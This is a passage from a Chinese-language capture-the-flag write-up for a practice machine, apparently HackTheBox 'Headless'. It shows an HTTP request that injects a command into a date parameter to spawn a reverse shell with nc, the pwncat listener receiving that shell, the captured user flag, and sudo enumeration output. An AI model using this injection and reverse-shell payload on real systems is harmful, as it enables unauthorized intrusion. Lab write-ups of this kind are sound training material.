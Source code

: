 尝试对参数进行拼接执行

```plaintext
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=2023-09-15;nc -c /bin/bash 10.10.16.3 9999
```

成功执行

## User - dvir

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[22:52:56] Welcome to pwncat 🐈!
[22:53:21] received connection from 10.10.11.8:43764
[22:53:32] 10.10.11.8:43764: registered new host w/ db
(local) pwncat$ back
(remote) dvir@headless:/home/dvir/app$ whoami
dvir
```

### flag - user

```shell
(remote) dvir@headless:/home/dvir$ cat user.txt
2fad488ea81fe0a47f534e7350e97913
```

### 环境探测

```shell title="sudo -l"
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
